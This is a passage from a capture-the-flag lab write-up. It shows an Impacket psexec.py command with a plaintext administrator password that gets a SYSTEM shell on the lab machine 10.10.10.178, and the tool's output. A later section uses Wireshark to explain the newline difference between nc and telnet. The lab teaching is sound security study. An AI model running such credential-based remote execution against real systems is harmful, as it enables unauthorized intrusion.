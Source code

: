     
    
    root@kali# rlwrap psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
    Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.178.....
    [*] Found writable share ADMIN$
    [*] Uploading file OYlCNyku.exe
    [*] Opening SVCManager on 10.10.10.178.....
    [*] Creating service zpAT on 10.10.10.178.....
    [*] Starting service zpAT.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Windows\system32>whoami
    nt authority\system
    

And I can get the root flag:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    6594c2eb************************
    

## Beyond Root

As far as I knew, both `telnet` and `nc` transmit only what is input, with no
protocol or any other wrapping around it. So why, when enumerating port 4386,
did one work, and the other not?

I opened up Wireshark, started a capture, and for each connected, typed `help`
at the first prompt, and hit Enter. On first look, they looked exactly the
same.

`nc`:

![image-20200605201227701](https://0xdfimages.gitlab.io/img/image-20200605201227701.png)

`telnet`:

![image-20200605201245413](https://0xdfimages.gitlab.io/img/image-20200605201245413.png)

When I looked at them as Hex, the answer immediately became clear:

`nc`:

![image-20200605201357255](https://0xdfimages.gitlab.io/img/image-20200605201357255.png)

`telnet`:

![image-20200605201412359](https://0xdfimages.gitlab.io/img/image-20200605201412359.png)

`nc` was sending a Linux newline, `\n` or 0x0a, when I hit Enter. `telnet`
sends a Windows new line, `\r\n` or 0x0d 0x0a. Most applications I typically
deal with are fine with the `\n`, but this application is not.
